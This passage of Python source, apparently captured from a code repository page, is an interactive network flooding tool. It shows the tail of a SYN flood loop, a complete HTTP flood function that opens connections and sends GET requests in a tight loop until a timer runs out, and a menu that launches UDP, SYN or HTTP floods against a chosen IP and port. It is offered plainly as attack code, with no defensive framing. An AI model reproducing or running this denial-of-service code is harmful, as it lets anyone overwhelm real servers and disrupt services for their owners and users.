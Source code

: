 ```python
            sock.settimeout(0.01)
            sock.connect((ip, port))
            sent += 1
            print(colored(f"SYN Packets Sent: {sent} To Target: {ip}", 'red'))
        except (socket.error, OSError) as e:
            print(colored(f"Socket error: {e}", 'red'))
        except KeyboardInterrupt:
            print(colored("\n[*] SYN ATTACK STOPPED", 'green'))
            sys.exit()
        finally:
            sock.close()

# HTTP Flood function
def http_flood(ip, port, dur):
    http_request = b"GET / HTTP/1.1\r\nHost: target.com\r\n\r\n"
    sent = 0
    timeout = time.time() + dur
    while True:
        if time.time() > timeout:
            break
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(0.01)
            sock.connect((ip, port))
            sock.sendall(http_request)
            sent += 1
            print(colored(f"HTTP Packet Sent: {sent} to Target: {ip}", 'red'))
        except (socket.error, OSError) as e:
            print(colored(f"Socket error: {e}", 'red'))
        except KeyboardInterrupt:
            print(colored("\n[-] ATTACK STOPPED BY USER", 'green'))
            break
        finally:
            sock.close()

print()
attack_type = input(colored("Choose Flood Attack > \n 1. UDP Flood \n 2. SYN Flood \n 3. HTTP Flood \n Input Attack Choice: ", 'green'))

if attack_type == "1":
    print(colored("UDP Flood Attack selected", 'red'))
    udp_flood(ip, port, dur, packet_size)
    print(colored("UDP Flood Attack Completed :-)", 'green'))
elif attack_type == "2":
    print(colored("SYN Flood Attack Selected", 'red'))
    syn_flood(ip, port, dur)
    print(colored("SYN Flood Attack Completed :-)", 'green'))
elif attack_type == "3":
    print(colored("HTTP Flood Attack Selected", 'red'))
    http_flood(ip, port, dur)
    print(colored("HTTP Flood Attack Completed :-)", 'green'))
else:
    print(colored("Error :( Invalid Attack Type Exiting", 'red'))
    sys.exit()
```
